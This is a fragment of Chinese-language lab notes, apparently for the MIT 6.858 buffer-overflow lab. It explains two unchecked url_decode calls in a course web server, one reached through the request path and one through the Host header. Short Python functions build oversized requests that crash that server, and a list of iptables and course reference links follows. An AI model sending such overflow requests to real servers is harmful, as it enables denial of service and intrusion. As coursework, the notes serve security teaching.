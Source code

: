 overflow2

在http_request_line中调用了url_decode函数，这里传入了参数reqpath和sp1，作用是将sp1处的字符串拷贝到reqpath地址处，但url_decode此处并不做长度的检查。reqpath的长度为4096，而sp1这里最长可以达到8192，因此我们可以考虑将sp1指向的内容设置为5000，这里溢出的内容可以覆盖到返回地址，最终使得程序崩溃。

```python
def build_exploit(shellcode):
    req =   b"GET /"
    for i in range(5000):
        req = req + b"A"
    req = req + b" HTTP/1.0\r\n"
    req = req + b"\r\n"
    return req
```

overflow3

在http_request_header中同样调用了url_decode，这里传入的参数是value和sp，这里value的长度是512，而sp的长度是8192，和上面一样，但这里我们需要修改的内容是http报文头部。

```python
def build_exploit(shellcode):
    req =   b"GET / HTTP/1.0\r\n"
    req = req + b"HOST: "
    for i in range(2000):
        req += b"C"
    req += b"\r\n"
    req += b"\r\n"
    return req
```

checksec

## 参考链接

[信息安全课程11：防火墙（iptables/netfilter） - 知乎 (zhihu.com)](https://zhuanlan.zhihu.com/p/59923208)

[信息安全课程12：防火墙（netfilter/iptables） - 知乎 (zhihu.com)](https://zhuanlan.zhihu.com/p/61343421)

[iptables 从入门到应用 - FrankB - 博客园 (cnblogs.com)](https://www.cnblogs.com/frankb/p/7427944.html)

[使用iptables实现反向代理 - 简书 (jianshu.com)](https://www.jianshu.com/p/09200aa50be4)

[MIT 6.858: Computer Systems Security 计算机系统安全 实验1 - 知乎 (zhihu.com)](https://zhuanlan.zhihu.com/p/258405554)

[信息安全 · see you again/ustc_sse_lesson - 码云 - 开源中国 (gitee.com)](https://gitee.com/fragile_xia/ustc_sse_lesson/tree/master/信息安全)

[实验三问答 · 语雀 (yuque.com)](https://www.yuque.com/docs/share/d62b73cc-e91f-419a-b06e-2db5e79bc0b3)
